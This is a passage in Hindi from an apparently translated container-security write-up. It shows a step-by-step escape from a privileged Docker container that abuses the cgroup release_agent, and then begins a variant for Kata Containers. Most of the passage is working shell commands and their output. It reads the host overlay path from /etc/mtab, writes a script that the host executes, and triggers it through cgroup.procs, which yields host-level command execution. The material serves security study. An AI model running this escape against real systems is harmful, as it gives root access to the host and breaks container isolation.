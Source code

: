 कंटेनर में हम जो फ़ाइलें जोड़ते हैं या संशोधित करते हैं, वे होस्ट पर मौजूद होती हैं, और दोनों दुनिया से उन्हें संशोधित करना संभव है: कंटेनर में उनका पथ और होस्ट पर उनका पथ।

नीचे दिए गए ऑपरेशन्स को देखा जा सकता है:
```
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
ध्यान दें `/cmd` स्क्रिप्ट के पथ पर, जिसे हम होस्ट पर बनाने वाले हैं:
```
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```
अब, हम `/cmd` स्क्रिप्ट बनाते हैं ताकि यह `ps aux` कमांड को निष्पादित करे और उसके आउटपुट को होस्ट पर आउटपुट फाइल के पूर्ण पथ को निर्दिष्ट करते हुए कंटेनर पर `/output` में सेव करे। अंत में, हम `/cmd` स्क्रिप्ट को भी प्रिंट करते हैं ताकि उसकी सामग्री देख सकें:
```
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```
अंत में, हम "x" चाइल्ड cgroup के अंदर तुरंत समाप्त होने वाली प्रक्रिया को उत्पन्न करके हमला कर सकते हैं। `/bin/sh` प्रक्रिया बनाकर और उसके PID को "x" चाइल्ड cgroup डायरेक्टरी में `cgroup.procs` फाइल में लिखकर, होस्ट पर स्क्रिप्ट `/bin/sh` के बाहर निकलने के बाद निष्पादित होगी। होस्ट पर किया गया `ps aux` का आउटपुट फिर कंटेनर के अंदर `/output` फाइल में सहेजा जाता है:
```
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
# `--privileged` flag v2

पिछले PoCs तब अच्छे से काम करते हैं जब कंटेनर को एक storage-driver के साथ कॉन्फ़िगर किया जाता है जो माउंट पॉइंट के पूरे होस्ट पथ को उजागर करता है, उदाहरण के लिए `overlayfs`, हालांकि हाल ही में मैं कुछ कॉन्फ़िगरेशनों से मिला जो स्पष्ट रूप से होस्ट फाइल सिस्टम माउंट पॉइंट को प्रकट नहीं करते थे।

## Kata Containers
```
root@container:~$ head -1 /etc/mtab
kataShared on / type 9p (rw,dirsync,nodev,relatime,mmap,access=client,trans=virtio)
```
[Kata Containers](https://katacontainers.io) मूल रूप से कंटेनर की रूट फाइल सिस्टम को `9pfs` के ऊपर माउंट करता है। यह Kata Containers वर्चुअल मशीन में कंटेनर फाइल सिस्टम के स्थान के बारे में कोई जानकारी प्रकट नहीं करता है।
